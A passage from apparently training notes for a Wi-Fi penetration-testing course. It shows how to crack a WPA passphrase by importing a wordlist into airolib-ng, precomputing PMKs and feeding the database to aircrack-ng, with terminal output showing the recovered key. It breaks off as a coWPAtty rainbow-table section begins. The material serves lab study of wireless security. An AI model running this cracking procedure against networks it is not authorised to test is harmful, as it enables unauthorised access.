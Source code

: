 Import our wordlist(s) to the database:

```bash
kali@kali:~$ airolib-ng wifu.sqlite --import passwd /usr/share/john/password.lst
Reading file...
Writing... read, 2539 invalid lines ignored.
Done.
```

Ignored entries are because WPA passwords are between 8 and 63 characters long.

Make **airolib-ng** batch process all the PMKs:

```bash
kali@kali:~$ airolib-ng wifu.sqlite --batch
Computed 501 PMK in 2 seconds (250 PMK/s, 0 in buffer). All ESSID processed.

kali@kali:~$ airolib-ng wifu.sqlite --stats
There are 1 ESSIDs and 501 passwords in the database. 501 out of 501 possible combinations have been computed (100%).

ESSID	Priority	Done
wifu	64	100.0
```

Rather than using a wordlist with **aircrack-ng**, we can choose to pass our database:

```bash
kali@kali:~$ aircrack-ng -r wifu.sqlite wpa1-01.cap

                        Aircrack-ng 1.6

             [00:00:00] 16 keys tested (23633.68 k/s)

                     KEY FOUND! [ password ]

Master Key     : 68 72 39 CD 26 DA 6B 12 64 37 1E AB A5 9F E5 7F
                 29 DE 33 75 0A 12 4C E0 F7 D4 2E 00 4C 51 FB 56

Transient Key  : 2F 07 B7 3D 1E D3 AB 73 69 3F 39 99 11 8A 00 4F
                 C8 29 67 AA 46 35 EF 99 E9 B1 A5 41 DC 29 07 A0
                 66 EC 9D D8 D5 96 65 D6 DE E4 97 30 9B D7 B8 FC
                 6F 35 48 82 42 3B EC 11 7A 13 E4 CF 5C 08 4A DB

EAPOL HMAC     : 8E 86 F5 EB F6 2A 2A 47 0B 66 9B C7 8A E2 9F 63
```

As shown, using PMKs go _**much**_ quicker than trying to crack the PSK.

## coWPAtty

### Rainbow Table Mode

The main purpose of coWPAtty is to use pre-computed hashes, similar to airolib-ng.&#x20;
